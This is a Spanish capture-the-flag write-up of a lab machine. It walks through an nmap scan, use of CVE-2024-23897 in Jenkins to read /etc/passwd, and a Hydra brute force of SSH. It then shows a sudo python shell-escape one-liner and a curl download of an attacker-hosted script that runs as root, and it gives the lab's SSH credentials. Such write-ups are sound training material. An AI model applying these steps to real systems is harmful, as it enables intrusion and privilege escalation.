 # Info
## IP Víctima
```
172.17.0.2
```
## SSH creds
### Usuario
```
bobby
```
### Pass
```
chocolate
```
# Writeup
## Nmap
En primer lugar lanzamos un nmap para identificar puertos abiertos, servicios y versiones.
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

```
El escáner revela un servidor HTTP corriendo en el puerto 8080 mediante Jetty y un OpenSSH. Investigando un poco sobre Jetty leo sobre vulnerabilidades de XSS e inyección comunes en versiones más antiguas, pero no encuentro ningún exploit concreto que se pueda usar, por lo que visito la web a ver que encontramos. 
El puerto 8080 revela un login de Jenkins, hago un fuzzeo rápido antes de probar cualquier otra cosa y veo que hay un subdirectorio /people que no requiere auth, y dentro veo que hay un perfil de nombre admin. Voy a probar a hacer un ataque diccionario al panel de login con el username 'admin'.
## FF 
Después de un rato dándole vueltas veo un writeup de Pylon, en el que utiliza WhatWeb para ver la versión de Jenkins que está corriendo. En la versión del lab hay una vulnerabilidad de LFS. Me bajo el exploit y gracias a la vulnerabilidad [[CVE-2024-23897]]  puedo leer el contenido de /etc/passwd, archivo que revela la existencia de un usuario 'bobby', al cual vamos a atacar mediante SSH por diccionario. Sacamos la contraseña con hydra y pasamos a postexplotación
## Post explotación
Un `sudo -l` revela que lo siguiente `(pinguinito) NOPASSWD: /usr/bin/python3` con lo cual solo queda lanzar un 
``` bash
sudo python -c 'import os; os.system("/bin/sh")'
```
y ganar acceso al usuario pinguinito. Una vez dentro de este lanzo sudo -l de nuevo y veo lo siguiente: `(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py`  pero no hay nano en la máquina. Borro el archivo de la carpeta y despues de crear un script.py en mi propia máquina lo sirvo en http con python, entonces, desde la máquina victima lo descargo con `curl -O http://192.168.1.157:8081/script.py` una vez mi script ya esta dentro simplemente lanzo `sudo -u root /usr/bin/python3 /opt/script.py` y ya soy root.
 